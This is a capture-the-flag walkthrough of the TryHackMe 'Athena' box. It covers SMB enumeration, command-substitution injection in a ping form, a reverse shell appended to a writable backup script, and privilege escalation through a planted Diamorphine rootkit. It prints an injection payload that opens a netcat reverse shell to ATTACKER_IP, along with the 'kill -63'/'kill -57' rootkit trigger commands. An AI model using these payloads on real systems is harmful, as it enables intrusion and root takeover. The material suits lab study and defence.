This box is rated medium difficulty on THM. It involves us exploiting command substitution to grab a reverse shell through a custom pinging tool, as well as privilege escalation through cronjobs and a preexisting rootkit on the machine.

_Break all security and compromise the machine._

## Scanning & Enumeration
As always, I begin with an Nmap scan against the given IP to find all running services on the host. Repeating the same for UDP yields no results.

```
$ sudo nmap -p22,80,139,445 -sCV 10.65.166.231 -oN fullscan-tcp
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-02 21:07 CST
Nmap scan report for 10.65.166.231
Host is up (0.046s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Athena - Gods of olympus
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-02-03T03:08:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.51 seconds
```

There are four ports open:
- SSH on port 22
- An Apache web server on port 80
- SMB on ports 139 & 445

Since it's pretty quick to enumerate, I fire up NetExec to enumerate SMB in order to see if Guest authentication is allowed.



It is indeed enabled and we have read permissions on a public share. Looking inside it shows a text file containing a message for an administrator, not meant for us but this could be quite useful. Here are the contents:

```
Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```

One of the employees has developed a new Pinging system and gives us a new directory to check out on the web server. That is all for SMB right now as we don't have write access or other creds to authenticate with. Before heading over to the web server I leave a few Gobuster scans in the background to find subdirectories/subdomains in order to save on time.

Checking out the landing page shows some history on the Greek goddess Athena, and also gives us a few names to stash on a list in case we need to brute force at some point.


My directory scans kept timing out for some odd reason and this page is static so we won't be able to exploit any functionality here. Let's head over to the router panel.

This seems to only host a newly developed pinging tool meant to check availaibilty to other devices.



The other tabs on this page redirect us to an under construction message, so we'll have to work with what we've got. Capturing a request to ping my own IP address, I find that this function makes a POST request to a ping.php page using an ip parameter.



After entering a valid IP, the stdout from the ping command gets printed to the screen. Now that we know the system is using a normal ping command to reach devices, I try appending a semicolon and a whoami command to test for injection.



That clearly does not work. I try to ping `localhost` for fun and find that doing so actually works. This site is most likely prone to some kind of DDoS attack but that's not really what we're looking for. It's clear any attempt of adding special characters to chain commands such as `";", "&", "|"` will only block the attempt, so I start researching other ways to get around this.

## Command Substitution
I come across an [article](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html) explaining what command substitution is, I've seen this been done before in some applications when needed but have never exploited it. If we store a command inside of $(COMMAND) and call it, it's possible to bypass certain filters like in our case.

For example, if I make a file and store the command cat [FILE] inside of a variable which then gets called by another cat command, it will still throw an error, but our command gets executed and printed as part of it.


So how do we exploit this with the pinging tool? We know that it doesn't sanitize the input correctly as when we supply a semicolon or other operators to chain commands, it detects a hacking attempt instead of an error consistent with pinging (like "Failed to execute ping"). If we provide a valid IP and then our command wrapped in the variable parenthesis, we can have it execute arbitrary commands.

I test this theory in Burp Suite with a command that makes the application sleep for 5 seconds after pinging localhost.

```
ip=127.0.0.1$(sleep 5)&submit=
```



This works and the response matches. Next, I try a reverse shell that doesn't have any special characters that will be filtered. I end up going with a simple netcat command that will spawn a bash shell once connected, but when executed it doesn't work.

```
ip=127.0.0.1$(nc ATTACKER_IP PORT -e /bin/bash)&submit=
```



You could also execute a bind shell on the system for this step, just make sure it's a port above 1000 as it will probably need Sudo to run it. Now we can start looking at routes for privilege escalation. I have my eyes on Athena's account as she's the only other user besides root. I should mention that I upgraded my shell using the typical `Python3 import pty` method as well so we're able to use things like text editors.

## Privilege Escalation
I check the usual things like SUID bits set on binaries, unencrypted backups in `/var`, and sensitive files that are readable by www-data but don't find anything. We didn't see any login on the site so there's no database to dump which leaves me looking for files owned by Athena.

```
find / -type f -group athena 2>/dev/null 
```

This returns a `backup.sh` script under `/usr/share/backup` that is actually owned by our account, letting Athena execute it with group permissions. This is what's inside of it:

```
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

Backup scripts are usually automated processes except I didn't see a crontab executing this so I'm going to guess that there is a personal cronjob doing so. Since we can write to this file, I add a line containing a reverse shell pointed towards my attacking machine, setup a netcat listener and wait. 



Yay, now we that we have a shell as Athena we can grab the user flag under her home directory and start looking at ways to escalate privileges to root. She has the ability to use the insmod special binary on a secret file under `/mnt` . 



A bit of quick research shows that this allows a user to insert modules into the Linux kernel. Some groups use this in order to load rootkits as a backdoor on compromised systems. As the file allowed is already a kernel object (.ko extension), I download it to my attacking machine for further inspection.

## Rootkit Inspection
I use Ghidra to inspect this file by making a new project, importing the `venom.ko` file and inspecting it through the Code Browser. This discloses all functions used throughout the file and I discover a `diamorphine_init` label.



Diamorphine is an LKM rootkit intended for use on Linux Kernels `2.6.x/3.x/4.x/5.x/6.x (x86/x86_64 and ARM64)`. While researching what this rootkit does, I found [this article](https://www.sciencedirect.com/science/article/abs/pii/S1353485821001458) explaining how it stays hidden.

Diamorphine is a rootkit that changes program behaviour by modifying kernel data structures. Among other things, it hides itself from lsmod, a command that lists all loaded modules. When Diamorphine loads itself, it modifies the modules linked list inside the kernel space to ensure it stays hidden

[This GitHub repository](https://github.com/m0nad/Diamorphine) also  goes a bit into detail on how its used. I spent some time trying to wrap my head around how this works.



There is a pointer named `puVar2` on line 27 that is directed to the system call table. Along with that, I see that it stores and references the original addresses for `getdents, getdents64, and kill`. In short this function redirects any system call to kill towards the `hacked_kill` function, same goes for the `getdents` versions.

This allows the rootkit to intercept a system call and change the behavior of it. Skipping ahead, the `hacked_kill` function is used for checking incoming signals; If the value of iVar3 is `0x39`, then it will call a `give_root` function meant for privilege escalation. On the other hand, if the value of iVar 3 is 0x3f it will toggle the built-in hidden feature.



Alright so when executing the Sudo command to load this module, it will stay hidden from us using the lsmod command to find all loaded modules. Also we can potentially get privesc to root user by supplying the hacked_kill function with a value of `0x39` (being 57 in Hex).

Now the only problem is, how are we supposed to interact with the loaded module if it stays hidden? Recalling from the inspection, if we supply the kill system call with `0x3f` (63 in Hex) and a UID for root, it will toggle the hide feature and reveal itself. Let's test it out.

```bash
#Load rootkit module
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko

#Toggle hidden feature
kill -63 0

#Change UID to root user
kill -57 0
```



Using the rootkit to change our `UID` to 0 (matching root user), we can privesc and grab the final flag under `/root` directory. This box was really cool as I've never used a rootkit as a way to escalate privileges. Big thanks to [MatheuZSec](https://tryhackme.com/p/MatheuZSec) for making this room for us. I hope this was helpful to anyone stuck like I was for a bit or following along and happy hacking!
